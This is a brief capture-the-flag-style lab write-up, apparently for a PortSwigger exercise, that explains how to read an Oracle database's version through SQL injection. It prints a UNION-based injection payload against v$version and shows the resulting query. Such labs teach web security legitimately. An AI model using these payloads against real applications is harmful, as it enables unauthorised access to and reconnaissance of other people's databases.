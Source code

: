 ## Lab Description: SQL injection attack, querying the database type and version on Oracle

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/25571c47-3460-41b7-8363-704f83ec43cf)

Solution:
The SELECT version FROM v$instance only returns the version number, the first one, SELECT banner FROM v$version, returns the full version string that is requested.

Therefore I need to inject `' UNION SELECT 'a',banner FROM v$version--` to obtain the version information with the following query:

` SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',banner FROM v$version-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a9038f3d-f473-46f4-a3b0-4ea2fd45057a)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f09cf081-c157-48c4-9b1b-54c357d8af12)
